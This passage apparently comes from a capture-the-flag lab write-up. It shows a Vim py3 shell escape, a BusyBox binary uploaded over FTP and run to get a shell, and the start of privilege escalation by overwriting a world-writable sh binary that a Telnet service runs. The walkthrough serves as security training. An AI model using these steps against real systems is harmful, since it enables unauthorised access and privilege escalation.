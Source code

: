 
The next phase consisted of enumerating the environment through Vim via the use of the `py3` inbuild command.

E.G.: `:py3 import os; print(os.listdir("/"))` will list the root directory.

>Read more about Vim exploitation: [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)

Overall, it looks like the system does not have any binary, including any `sh` or `bash`. Therefore, my team and I came to the conclusion that we could work our way around that by uploading BusyBox via the FTP.

```shell
ftp> put busybox
200 Operation successful
150 Ok to send data
226 Operation successful
1112880 bytes sent in 0.522 seconds (2.04 Mbytes/s)
ftp> ls
200 Operation successful
150 Directory listing
total 9504
-rw-r--r--    1 0        0             3010 Nov  5 18:49 FROST-2247-SP.txt
-rw-r--r--    1 0        0             3211 Nov  5 18:50 YETI-1125-SP.txt
-rw-r--r--    1 0        0          1275832 Dec 12 14:23 busybox
-rw-r--r--    1 0        0               24 Nov  5 19:06 flag-1-of-4.txt
-rw-r--r--    1 0        0               12 Nov  5 19:07 flag-2-of-4.sh
-rw-r--r--    1 0        0          2127524 Nov  5 18:54 frostling_base.png
-rw-r--r--    1 0        0          2305908 Nov  5 18:54 frostling_five.png
-rw-r--r--    1 0        0          1589463 Nov  5 18:54 yeti_footage.png
-rw-r--r--    1 0        0          2277409 Nov  5 18:54 yeti_mugshot.png
```

```vim
:py3 import shutil; shutil.copyfile("/tmp/ftp/busybox", "/tmp/busybox")
:py3 import os; os.chmod("/tmp/busybox", 0o777)
:!/tmp/busybox sh
$
```

Now, when we finally have a shell, we can move on to privilege escalation.

## Privilege Escalation

After a quick look over the running processes with `ps`, we can see that the Telnet session on port **8065** attempts to run `/usr/frosty/sh`.

![PS](blog/thm/aoc_23_room3/ps_1.png)

However, this file does not appear to be valid. That being, if we list the directory, we can see that the permissions are open, and we can (re)write the file with our own `sh` binary.

![SH](blog/thm/aoc_23_room3/sh_1.png)
